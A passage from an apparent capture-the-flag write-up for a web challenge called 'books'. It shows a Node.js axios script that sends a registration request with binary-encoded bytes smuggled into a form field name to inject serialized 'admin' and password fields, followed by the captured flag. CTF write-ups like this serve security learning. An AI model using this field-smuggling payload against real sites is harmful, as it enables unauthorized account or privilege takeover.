 We're IN! now i just have to register with that payload.

```javascript
// Requires NodeJs
// and `npm install axios`
const axios = require('axios');
const querystring = require('querystring');

axios({
    method: 'post',
    url: `https://books.web.ctfcompetition.com/user/register`,
    headers: {
        referer: 'https://books.web.ctfcompetition.com/user/register',
        'Content-Type': 'application/x-www-form-urlencoded',
    },
    data: querystring.stringify({
        'name': 'nytr0gen31337',
        'age': 20,
        'desc': 13,
        "zzzz\u00bd\u00bd\u00bd\u00bd\u00bd\u0001\u0005\u0000\u0000\u0000": "\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin" +
        "\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918" +
        "\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5" +
        "\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000",
        'password': 'qwerty',
    }),
}).then((response) => {
    console.log(response.data);
}).catch((err) => {
    console.error(err);
});
```

login as `nytr0gen31337` and we're finished, go to my books.

```
CTF{1892b0d8bc93d7e4ca98975f47f8c7d8}
```

that look like an md5. what's in there?
